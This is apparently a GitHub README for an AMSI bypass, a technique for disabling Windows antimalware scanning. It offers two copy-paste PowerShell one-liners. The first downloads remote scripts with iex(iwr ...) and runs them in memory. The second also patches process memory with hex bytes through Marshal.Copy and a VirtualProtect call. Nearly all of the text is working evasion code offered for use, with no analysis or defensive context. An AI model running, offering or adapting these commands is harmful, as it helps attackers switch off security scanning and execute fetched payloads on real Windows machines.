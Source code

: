 # AMSI
Another amsi bypass code. 

Usage :
Fast one liner, copy paste mode. 
1. Simple, nice, clean and readable :) - Load two file from remote 
```
iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/aman.txt -Usebasicparsing);Start-sleep -s 3;iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/lain.txt -Usebasicparsing)
```

2. Load one remotely, and one in the oneliner.
```
iex(iwr https://raw.githubusercontent.com/zief/AMSI/main/aman.txt -Usebasicparsing);$hexString = "4831C0";$3b = [Byte[]]::new($hexString.Length / 2);for ($i = 0; $i -lt $hexString.Length; $i += 2) {$3b[$i / 2] = [Convert]::ToByte($hexString.Substring($i, 2), 16)};[System.Runtime.InteropServices.Marshal]::Copy($3b, 0, $alamat, $3b.Length);$vp.Invoke($alamat, $3b.Length, 0x20, [ref]$tua)
```

